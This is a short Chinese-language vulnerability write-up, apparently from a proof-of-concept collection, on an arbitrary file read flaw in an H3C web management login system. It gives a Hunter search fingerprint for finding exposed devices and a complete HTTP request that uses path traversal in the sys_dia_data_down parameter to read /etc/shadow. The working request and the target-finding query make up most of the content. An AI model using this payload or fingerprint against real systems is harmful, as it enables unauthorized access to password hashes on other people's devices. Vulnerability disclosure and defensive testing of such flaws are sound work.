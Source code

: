# H3C Web网管登录系统jQuery-1.7.2存在任意文件读取

# <font style="color:rgb(0, 0, 0);">一、漏洞简介</font>
H3C Web网管登录系统jQuery-1.7.2存在任意文件读取漏洞，其1.7.2版本的sys_dia_data_down模块存在任意文件读取漏洞，攻击者可通过前台读取任意文件。

## <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ <font style="color:rgb(0, 0, 0);">H3C用户网管登录系统</font>

# <font style="color:rgb(0, 0, 0);">三、资产测绘</font>
+ <font style="color:rgb(0, 0, 0);">hunter</font>`web.body="webui/js/jquerylib/jquery-1.7.2.min.js"`
+ <font style="color:rgb(0, 0, 0);">特征</font>

![1699976084811-ac173385-4963-406a-ba41-d03251a1c453.png](./img/TwNVOLVx89ZNCJov/1699976084811-ac173385-4963-406a-ba41-d03251a1c453-175462.png)

# <font style="color:rgb(0, 0, 0);">四、漏洞复现</font>
```plain
  GET /webui/?g=sys_dia_data_down&file_name=../../../../../etc/shadow HTTP/1.1
  Host: xx.xx.xx.xx
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Cookie: USGSESSID=a9523e6ede287f558817c3bbcf9a60be
  Upgrade-Insecure-Requests: 1
```

![1694660996937-199bec25-d529-4f3a-aa85-d888280b1627.png](./img/TwNVOLVx89ZNCJov/1694660996937-199bec25-d529-4f3a-aa85-d888280b1627-831084.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/spgv7orsuvd67clb>